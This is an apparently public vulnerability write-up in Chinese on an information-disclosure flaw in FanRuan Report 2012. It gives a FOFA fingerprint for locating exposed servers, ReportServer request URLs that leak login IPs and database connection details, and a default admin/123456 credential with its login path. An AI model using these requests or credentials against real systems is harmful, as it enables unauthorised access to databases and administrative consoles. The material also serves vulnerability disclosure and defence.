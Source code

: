# 帆软报表-2012-信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

获取登录报表系统的IP

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](帆软报表-2012-信息泄露漏洞.assets/16273635008648489.jpg)

数据库信息泄露

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![](帆软报表-2012-信息泄露漏洞.assets/1627363501114589.jpg)

后台默认口令 admin/123456

```
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

